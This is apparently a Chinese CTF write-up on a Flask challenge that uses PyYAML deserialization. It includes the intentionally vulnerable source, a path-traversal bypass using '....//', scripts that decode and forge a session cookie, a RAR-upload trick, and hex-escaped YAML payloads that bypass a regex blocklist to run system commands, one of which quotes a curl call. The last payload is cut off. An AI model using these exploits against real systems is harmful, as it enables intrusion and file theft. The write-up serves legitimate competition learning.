

## web1--yaml的反序列化

###  前言

7月底强网杯出了一道python的pickle反序列化，现在8月底网鼎杯又出了python的yaml反序列化，现在借此机会，自己再总结总结。当然自己在后面的时间里也要不断努力，学到更多的东西。

###  题目

基础看看这个：https://xz.aliyun.com/t/7923#toc-0

poc集合：https://www.tr0y.wang/2022/06/06/SecMap-unserialize-pyyaml/#%E6%94%BB%E5%87%BB%E6%80%9D%E8%B7%AF

考点：就是python的yaml的反序列化

题目源码：

```python
import os
import re
import yaml
import time
import socket
import subprocess
from hashlib import md5
from flask import Flask, render_template, make_response, send_file, request, redirect, session

app = Flask(__name__)
app.config['SECRET_KEY'] = socket.gethostname()


def response(content, status):
    resp = make_response(content, status)
    return resp


@app.before_request
def is_login():
    if request.path == "/upload":
        if session.get('user') != "Administrator":
            return f"<script>alert('Access Denied');window.location.href='/'</script>"
        else:
            return None


@app.route('/', methods=['GET'])
def main():
    if not session.get('user'):
        session['user'] = 'Guest'
    try:
        return render_template('index.html')
    except:
        return response("Not Found.", 404)
    finally:
        try:
            updir = 'static/uploads/' + md5(request.remote_addr.encode()).hexdigest()
            if not session.get('updir'):
                session['updir'] = updir
            if not os.path.exists(updir):
                os.makedirs(updir)
        except:
            return response('Internal Server Error.', 500)


@app.route('/<path:file>', methods=['GET'])
def download(file):
    if session.get('updir'):
        basedir = session.get('updir')
        try:
            path = os.path.join(basedir, file).replace('../', '')
            if os.path.isfile(path):
                return send_file(path)
            else:
                return response("Not Found.", 404)
        except:
            return response("Failed.", 500)


@app.route('/upload', methods=['GET', 'POST'])
def upload():
    if request.method == 'GET':
        return redirect('/')

    if request.method == 'POST':
        uploadFile = request.files['file']
        filename = request.files['file'].filename

        if re.search(r"\.\.|/", filename, re.M | re.I) != None:
            return "<script>alert('Hacker!');window.location.href='/upload'</script>"

        filepath = f"{session.get('updir')}/{md5(filename.encode()).hexdigest()}.rar"
        if os.path.exists(filepath):
            return f"<script>alert('The {filename} file has been uploaded');window.location.href='/display?file={filename}'</script>"
        else:
            uploadFile.save(filepath)

        extractdir = f"{session.get('updir')}/{filename.split('.')[0]}"
        if not os.path.exists(extractdir):
            os.makedirs(extractdir)

        pStatus = subprocess.Popen(["/usr/bin/unrar", "x", "-o+", filepath, extractdir])
        t_beginning = time.time()
        seconds_passed = 0
        timeout = 60
        while True:
            if pStatus.poll() is not None:
                break
            seconds_passed = time.time() - t_beginning
            if timeout and seconds_passed > timeout:
                pStatus.terminate()
                raise TimeoutError(cmd, timeout)
            time.sleep(0.1)

        rarDatas = {'filename': filename, 'dirs': [], 'files': []}

        for dirpath, dirnames, filenames in os.walk(extractdir):
            relative_dirpath = dirpath.split(extractdir)[-1]
            rarDatas['dirs'].append(relative_dirpath)
            for file in filenames:
                rarDatas['files'].append(os.path.join(relative_dirpath, file).split('./')[-1])
        # 将python对象转换为yaml对象
        with open(f'fileinfo/{md5(filename.encode()).hexdigest()}.yaml', 'w') as f:
            f.write(yaml.dump(rarDatas))

        return redirect(f'/display?file={filename}')


@app.route('/display', methods=['GET'])
def display():
    filename = request.args.get('file')
    if not filename:
        return response("Not Found.", 404)

    if os.path.exists(f'fileinfo/{md5(filename.encode()).hexdigest()}.yaml'):
        with open(f'fileinfo/{md5(filename.encode()).hexdigest()}.yaml', 'r') as f:
            yamlDatas = f.read()
            if not re.search(r"apply|process|out|system|exec|tuple|flag|\(|\)|\{|\}", yamlDatas, re.M | re.I):
                rarDatas = yaml.load(yamlDatas.strip().strip(b'\x00'.decode()))
                if rarDatas:
                    return render_template('result.html', filename=filename, path=filename.split('.')[0],
                                           files=rarDatas['files'])
                else:
                    return response('Internal Server Error.', 500)
            else:
                return response('Forbidden.', 403)
    else:
        return response("Not Found.", 404)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8888)
```

首先第一步就是需要一个`flask`的`session伪造`，常规考点,需要获取`secret_key`,这个位置开始没有想法，最后发现这个路由下,只是对路径进行了替换，但是并没有过滤，所以就可以`双写绕过`

```python
@app.route('/<path:file>', methods=['GET'])
def download(file):
    if session.get('updir'):
        basedir = session.get('updir')
        try:
            path = os.path.join(basedir, file).replace('../', '')
            if os.path.isfile(path):
                return send_file(path)
            else:
                return response("Not Found.", 404)
        except:
            return response("Failed.", 500)
```

`....//`进行目录穿越，进行任意文件读取，看到`secret_key`需要远程环境的`gethostname`,这个太坑了，我读取`/etc/hostname`读取下来发现根本伪造不了，`secret_key`是错误的，最后才发现是读取`/etc/hosts`里面的，结果是`engine-1`




拿到`secret_key`，直接利用脚本进行flask的`session`伪造

解密脚本：

```python
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                         'an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                             'decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    print(decryption(b"eyJ1cGRpciI6InN0YXRpYy91cGxvYWRzLzRiM2NmMWZmYzkyMjRmNGQ4MzBjNWEyOWRiODU0ZDE1IiwidXNlciI6Ikd1ZXN0In0.YwhSAg.BU69JzlzLcf9lZ4nXbgJu50cUDE"))
```

看到了session的格式，直接利用加密脚本进行伪造，我只取了核心部分

当然Github上的比较完整：https://github.com/noraj/flask-[session](https://so.csdn.net/so/search?q=session&spm=1001.2101.3001.7020)-cookie-manager

```python
import requests
import ast
from flask.sessions import SecureCookieSessionInterface

secret_key = 'engine-1'


class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key

def session_cookie_encode(secret_key, session_cookie_structure):
    try:
        app = MockApp(secret_key)
        session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
        si = SecureCookieSessionInterface()
        s = si.get_signing_serializer(app)
        return s.dumps(session_cookie_structure)
    except Exception as e:
        return "[Encoding error]{}".format(e)


if __name__ == "__main__":
    payload = '''{"updir":"static/uploads/4b3cf1ffc9224f4d830c5a29db854d15","user":"Administrator"}'''
    res = session_cookie_encode(secret_key,payload)
    print(res)
    #url = 'http://eci-2ze74l0esvdjrc6llom3.cloudeci1.ichunqiu.com:8888/'
    #requests.get(url=url)
    #files = {'file': open('2.txt', 'rb')}
    #r = requests.post(url=url + '/upload', files=files,cookies={'session': res})
    #print(r.text)
```

伪造成功，就可以直接进入`upload`路由，开始看后面的python代码逻辑

第一遍读完，我们的利用点就是后面那个`yaml`反序列化打`RCE`

先看`upload`路由

```python
# 上传的一个目录下：
filepath = f"{session.get('updir')}/{md5(filename.encode()).hexdigest()}.rar"

# unrar解压下的一个目录，在该目录下会生成解压后的yaml文件
extractdir = f"{session.get('updir')}/{filename.split('.')[0]}"

# 打开一个yaml文件，然后直接写入我们不需要的一个yaml数据，而且是写入到fileinfo目录下
rarDatas = {'filename': filename, 'dirs': [], 'files': []}
with open(f'fileinfo/{md5(filename.encode()).hexdigest()}.yaml', 'w') as f:
    f.write(yaml.dump(rarDatas))
```

在`display`路由中

```python
if os.path.exists(f'fileinfo/{md5(filename.encode()).hexdigest()}.yaml'):
```

我们只要存在这样一个yaml文件，才能进行反序列化，但是上面upload路由下，rarDatas会写入需要的yaml。

相当于就是，我们现在只能反序列化一个`rarDatas`的python对象生成的一个yaml对象。

目标就是需要控制`yaml`文件的目录，同时这个`yaml`文件不被覆盖。下面是解决方法：

解决目录问题：我们将文件名前缀写成`fileinfo`的形式，就可以解压到`fileinfo`目录下

```python
extractdir = f"{session.get('updir')}/{filename.split('.')[0]}"
```

解决了目录问题，yaml文件会被覆盖，现在解决文件不被覆盖的问题：

我们先可以上传一个`fileinfo.rar`文件，这样在`fileinfo`目录下生成一个压缩包里的yaml文件，我们需要进入display路由的关键函数，所以在压缩包里放入一个yaml文件，文件名是`fileinfo.rar`的md5字符`b07407f978cba7abbd036e545015c132.yaml`

但是这样会在`yaml.dump`时被覆盖掉

所以进行第二次上传，我们将文件名改为`fileinfo.rara`，这样又可以覆盖掉`fileinfo`的`b07407f978cba7abbd036e545015c132.yaml`文件，然后因为`md5(filename.encode()).hexdigest()`,`dump`时也不会被覆盖。

最后就是我们直接访问`/display?file=fileinfo.rar`路由，就可以直接进入`关键函数`，当然也是load我们的恶意`yaml`文件

现在就是构造一个`yaml`反序列化

这篇文章的poc都被过滤了：https://xz.aliyun.com/t/7923#toc-5

找到了这个：https://gist.github.com/adamczi/23a3b6d4bb7b2be35e79b0667d6682e1

```
# The `extend` function is overriden to run `yaml.unsafe_load` with 
# custom `listitems` argument, in this case a simple curl request

- !!python/object/new:yaml.MappingNode
  listitems: !!str '!!python/object/apply:subprocess.Popen [["curl", "http://127.0.0.1/rce"]]'
  state:
    tag: !!str dummy
    value: !!str dummy
    extend: !!python/name:yaml.unsafe_load
```

这篇也有另一种payload：https://hackmd.io/@harrier/uiuctf20#uiuctf-2020

`subprocess.Popen`被过滤了，`apply`换成`new`,我们可以用`eval`或者`exec`，

然后绕过正则表达式,我们更改`_`为`\x5f`并`.`绕过`\x2e`正则这种

所以构造payload：

因为RCE发现需要提权，find一下有高权限dd命令，利用dd命令读flag

```python
byte_var = b"__import__('os').system('dd if=/flag of=/tmp/flag.txt > /tmp/c.txt')"
for i in byte_var:
    i = hex(i)
    i = i.replace("0", "\\",1)
    print(i,end="")
```

然后放入yaml文件

```yaml
dirs:['']
filename:z3eyond
files:
- !!python/object/new:yaml.MappingNode
  listitems: !!str "!!python/object/new:eval  [\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x64\x64\x20\x69\x66\x3d\x
2f\x66\x6c\x61\x67\x20\x6f\x66\x3d\x2f\x74\x6d\x70\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74\x20\x3e\x20\x2f\x74\x6d\x70\x2f\x63\x2e
\x74\x78\x74\x27\x29]"
  state:
    tag: !!str dummy
    value: !!str dummy
    extend: !!python/name:yaml.unsafe_lo
```

最后传上去访问`/display?file=fileinfo.rar`

然后目录穿越读`tmp下的flag文件`